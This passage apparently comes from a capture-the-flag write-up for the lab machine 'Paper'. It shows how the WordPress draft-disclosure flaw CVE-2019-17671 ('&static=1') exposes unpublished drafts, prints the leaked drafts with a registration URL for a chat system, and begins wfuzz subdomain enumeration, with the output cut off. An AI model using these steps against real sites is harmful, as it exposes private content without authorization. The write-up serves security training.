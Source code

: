 ### Draft content disclosure from wordress (CVE-2019-17671)

According to the [reference](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/), I can fetch the draft contents by adding `&static=1` parameter on URL.

I tried, and it returned draft texts.

```csharp
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez
```

It provides an URL to register new employee to the chat system.
It seems that there's a subdomain; `chat.office.paper`

Let's do subdomain fuzzing using `wfuzz`, and found one "chat.office.paper".

```markdown
┌──(kali㉿kali)-[~/htb/paper]
└─$ wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://office.paper/
Total requests: 4989

```